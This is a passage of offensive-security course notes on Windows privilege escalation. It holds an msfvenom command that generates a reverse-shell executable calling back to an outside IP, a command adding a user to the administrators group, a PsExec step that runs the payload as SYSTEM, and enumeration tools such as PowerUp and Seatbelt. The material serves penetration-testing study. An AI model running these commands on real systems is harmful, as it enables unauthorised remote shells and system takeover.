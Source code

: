 ### msfvenom
If we can execute commands with admin privileges, a reverse shell generated by msfvenom works nicely:
```bash
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f exe -o reverse.exe
```

This reverse shell can be caught using netcat or Metasploit's own multi/handler.

### RDP
If RDP is available (or we can enable it), we can add our low privilege user to the administrators group and spawn an administrator command prompt via the GUI.
```cmd
> net localgroup administrators <username> /add
```

### Admin -> SYSTEM
To escalate from admin user to full SYSTEM privileges, you can use the PsExec tool from Windows Sysinternals. [Here](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
```cmd
> .\PsExec64.exe -accepteula -i -s C:\PrivEsc\reverse.exe
```

## Privilege Escalation Tools
Tools allow us to automate the reconnaissance that can identify potential privilege escalations. This course mainly uses winPEAS and Seatbelt. Check out WinEnum.

### PowerUp & SharpUp
Very similar tools that hunt for specific privilege escalation misconfigurations
[PowerUp](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1)
[SharpUp](https://github.com/GhostPack/SharpUp)

To run PowerUp, start a PowerShell session and use dot sourcing to load the script:
```ps1
ps1> . .\PowerUp.ps1
```

Run the Invoke-AllChecks function to start checking for command Privilege escalation misconfigurations
```ps1
ps1> Invoke-AllChecks
```

To Run SharpUp, start a command prompt and run the executable:
```cmd
> .\SharpUp.exe
```

[Seatbelt](https://github.com/GhostPack/Seatbelt) is an enumeration tool. It contains a number of enumeration checks. It does not actively hunt for privilege escalation misconfigurations, but provides related information for further investigation.
Run all checks and filter out unimportant results:
```cmd
> .\Seatbelt.exe all
```
